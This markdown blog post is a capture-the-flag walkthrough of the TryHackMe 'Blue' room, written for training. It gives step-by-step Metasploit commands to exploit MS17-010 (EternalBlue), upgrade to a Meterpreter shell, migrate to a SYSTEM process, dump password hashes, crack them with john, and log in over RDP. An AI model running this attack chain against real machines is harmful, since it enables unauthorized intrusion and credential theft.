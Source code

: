 ```yaml
---
layout: post
title: "Blue"
date: 2021-04-14
ctf: true
excerpt: "Walkthrough for Blue on TryHackMe"
tags: [ms17-010]
comments: false
---
```


# Blue

Blue is the second room in the Offensive Security path on TryHackMe. Below is my walkthrough for the tasks for this room.

<details><summary><strong>Task 1 Hints</strong></summary>
<ul>
    <li>Have you deployed the machine and clicked on complete?
    <li>What popular port scanner can be used to answer the 2nd and 3rd questions for this task?
</ul>
</details>

<details><summary><strong>Task 2 Hints</strong></summary>
<ul>
    <li>Follow the information mentioned and launch Metasploit
    <li>How do you search for exploits in Metasploit?
    <li>What would you search for in this case?
</ul>
</details>

<details><summary><strong>Task 3 Hints</strong></summary>
<ul>
    <li>What post exploitation modules can be used to convert a TCP Shell to Meterpreter (Google it!)
    <li>Make sure you set the appropriate options!
    <li>Make sure your migrate step utilizes the correct system architecture.
</ul>
</details>

<details><summary><strong>Task 4 Hints</strong></summary>
<ul>
    <li>Two popular tools can be used to crack this password with a rather popular password list.
    <li>Make sure to indicate the correct hash format to crack the password.
</ul>
</details>

<details><summary><strong>Task 5 Hints</strong></summary>
<ul>
    <li>Follow the hints provided to uncover the 3 flags!
</ul>
</details>


## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1

#### Question 1

No answer is needed, just deploy the machine!

#### Question 2

![Blue Task 1 Question 2](/assets/img/Blue1.png)

This can easily be answered by running:

 **`threader3000`**

This will supply all of the open TCP ports on the box:

![Blue threader3000](/assets/img/Blue2.png)

Based on the results, the answer is 3 open ports (135, 139, 445).



#### Question 3

![Blue Task 1 Question 3](/assets/img/Blue3.png)

Let's run nmap on this box with the following parameters:

**`nmap -p135,139,445 --script vuln <victim ip>`**

This will run the vuln script in nmap and return results based on vulnerabilities uncovered.

![Blue nmap vuln script](/assets/img/Blue6.png)

In the output above, you will see both the CVE for this vulnerability (**CVE-2017-0143**) and the name designation from Microsoft (**ms17-010**), which is the answer to this question.

### Task 2

#### Question 1

No answer needed, just launch Metasploit with:

 **`msfconsole`**

#### Question 2

![Blue Task 2 Question 2](/assets/img/Blue7.png)

Once Metasploit has been launched, run the following to see all the exploits for the ms17-010 vulnerability:

**`search ms17-010`**

Several results will appear as shown below:

![Blue metasploit search ms17-010](/assets/img/Blue8.png)

The answer to this question is option 2 on this list **exploit/windows/smb/ms17_010_eternalblue**.

#### Question 3

The next question asks you which option needs to be set for this exploit:

![Blue Task 2 Question 3](/assets/img/Blue9.png)

This can be found by running the following within Metasploit:

**`show options`**

![Blue metasploit show options](/assets/img/Blue10.png)

The answer is **RHOSTS** as that is the only option that is not set by default. Set RHOSTS by using:

**`set RHOSTS <victim ip>`**

and then set your LHOST to your VPN IP address by running the following:

**`set LHOSTS tun0`**

![Blue metasploit set rhosts lhost](/assets/img/Blue11.png)

#### Question 4

With this set, type in either:

**`run`** or **`exploit`**

You should see output similar to that shown below:

![Blue metasploit eternalblue exploit](/assets/img/Blue12.png)



#### Question 5 

No answer is needed for this task. This exploit doesn't work 100% of the time so it is letting you know you may have to reboot the VM and try again.

### Task 3

#### Question 1

![Blue Task 3 Question 1](/assets/img/Blue14.png)

As mentioned above, background your shell with:

**`CTRL + Z`**  and then answer **`y`** to the prompt to background your session.

![Blue metasploit background session 1](/assets/img/Blue13.png)

For the post exploitation module, I did some Googling on shell to meterpreter, and came across [this](https://null-byte.wonderhowto.com/how-to/upgrade-normal-command-shell-metasploit-meterpreter-0166013/) article, which provides the answer to this question (**post/multi/manage/shell_to_meterpreter**).

![Blue metasploit post exploitation shell to meterpreter](/assets/img/Blue15.png)

#### Question 2

![Blue Task 3 Question 2](/assets/img/Blue16.png)

This next section asks you which option we're required to change. Let's run:

**`show options`** and you will notice a **SESSION** field. 

![Blue metasploit shell to meterpreter show options](/assets/img/Blue17.png)

#### Question 3

This needs to be modified to match the session number of your backgrounded session. Set this with:

**`set SESSION <session #>`**

![Blue metasploit set session](/assets/img/Blue19.png)

Once done, use either:

 **`run`** 

or

**`exploit`** 

to gain a Meterpreter shell.

#### Question 4

No answer needed, if this doesn't work, you might have to redo all of the prior steps in Metasploit.

#### Question 5

In order to know which session to select, run **sessions -l** to list all current active sessions in Metasploit.

![Blue metasploit list active sessions](/assets/img/Blue20.png)

You will notice 2 sessions: 1 with your reverse TCP shell, and another one with your Meterpreter shell. In this case, run the following to interact with the Meterpreter shell:

**`sessions -i 2`**

#### Question 6

This question asks you to run:

**`shell`**

to launch a shell on the remote machine followed by:

**`whoami`**

to confirm you are the NT AUTHORITY\SYSTEM user.

![Blue metasploit interact with session](/assets/img/Blue21.png)

#### Question 7

Next, let's background this shell with:

**`CTRL+Z`** followed by **`y`**

Next, run:

**`ps`**

to list processes running on the victim machine:

![Blue metasploit ps](/assets/img/Blue23.png)

#### Question 8

We are looking for a service that can be migrated to that is running as NT AUTHORITY\SYSTEM to find a process that is running as this user (as the service we are utilizing likely is not). Be mindful that the architecture of the service would need to match that of your shell (x64 in this case). This may take a few attempts to migrate to a process as it may fail. Migration is attempted with:

**`migrate <PID>`**

where PID is the process ID listed in the first column of the list from the **ps** command. A successful migration (after a few attempts) is shown below:

![Blue metasploit migrate](/assets/img/Blue24.png)

### Task 4

#### Question 1

Next, we're going to dump all the passwords on the victim machine. Follow the information provided in the question as shown below and run:

**`hashdump`**

![Blue metasploit hashdump](/assets/img/Blue25.png)

You should see output similar to that shown below, and there is one non-default user listed in this case, **Jon**.

![Blue metasploit hashdump](/assets/img/Blue26.png)

#### Question 2

![Blue Task 4 Question 2](/assets/img/Blue27.png)

Let's crack this password with **john**. First, on your attacker machine, copy the full line with the Jon user listed and echo it into a file with:

**`echo Jon:1000:....::: > hashes`**

To echo the hash into the hashes file. Next, let's run: 

**`john hashes --wordlist=/usr/share/wordlists/rockyou.txt --format=NT`**

This will attempt to crack the NT hash with the rockyou wordlist. After a couple minutes, the user's password will be displayed:

![Blue John](/assets/img/Blue28.png)

### Task 5

#### Question 1

Let's connect to this machine with Remote Desktop with **remmina**. Fill in the IP address of your victim machine once launched along with the user (**Jon**) and his password you cracked in the previous question.

![Blue Remmina rdp](/assets/img/Blue29.png)

After a couple moments, you will be presented with Jon's desktop as shown below.

![Blue Remmina Windows Desktop](/assets/img/Blue30.png)

Let's start looking for flags.

![Blue Task 5 Question 1](/assets/img/Blue31.png)

On Windows, the root of the system is typically **C:**. Let's open File Explorer and look around:

![Blue flag1](/assets/img/Blue32.png)

The first flag is located here in the flag1.txt file.

#### Question 2

![Blue Task 5 Question 2](/assets/img/Blue33.png)

This also provides a hint, this can be located at **C:\Windows\System32\config**

![Blue flag2](/assets/img/Blue34.png)

#### Question 3

![Blue Task 5 Question 3](/assets/img/Blue35.png)

The final flag is located at **C:\Users\Jon\My Documents** (as Jon is an administrator).

![Blue flag3](/assets/img/Blue36.png)

That's it! All flags have been uncovered!

</details>



